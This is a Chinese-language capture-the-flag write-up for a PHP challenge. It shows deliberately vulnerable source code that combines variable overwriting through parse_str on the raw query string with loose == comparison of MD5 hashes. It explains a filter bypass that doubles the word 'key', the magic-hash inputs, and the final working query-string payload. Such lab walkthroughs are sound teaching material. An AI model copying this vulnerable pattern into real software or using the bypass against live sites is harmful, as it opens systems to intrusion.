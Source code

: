 题目提示备份，访问index.php.bak获取到index.php的源码

```javascript
<?php
include_once "flag.php";
ini_set("display_errors", 0);
//截取url后面的东西
$str = strstr($_SERVER['REQUEST_URI'], '?');
//返回str除第一个字符以外的字符
$str = substr($str,1);
//str中的key 替换为
$str = str_replace('key','',$str);
parse_str($str);
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```



1. key1和key2的值从flag.php中获取，想要输出flag。必须得让md5($key1) == md5($key2) && $key1 !== $key2。这里可以利用==弱类型绕过。



2.key1=QNKCDZO&key2=240610708

但是现在的问题，是如何让flag.php文件中的key值由我们控制。

payload:flag.php?key1=QNKCDZO&key2=240610708不行......想想也对，只有index.php有输出



3.此时考虑变量覆盖

```javascript
$str = strstr($_SERVER['REQUEST_URI'], '?');
//返回str除第一个字符以外的字符
$str = substr($str,1);
//str中的key 替换为
```

这段代码获取url中？之后的内容



4.绕过过滤

```javascript
$str = str_replace('key','',$str);
```

这段代码将url中的key替换为空。这是可以考虑重写绕过kekeyy



5.导致变量覆盖的代码

```javascript
parse_str($str);
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/bugku/images/02549563800848639345352FBEB69AF0clipboard.png)



6.payload:

?kekeyy1=240610708&kekeyy2=QNKCDZO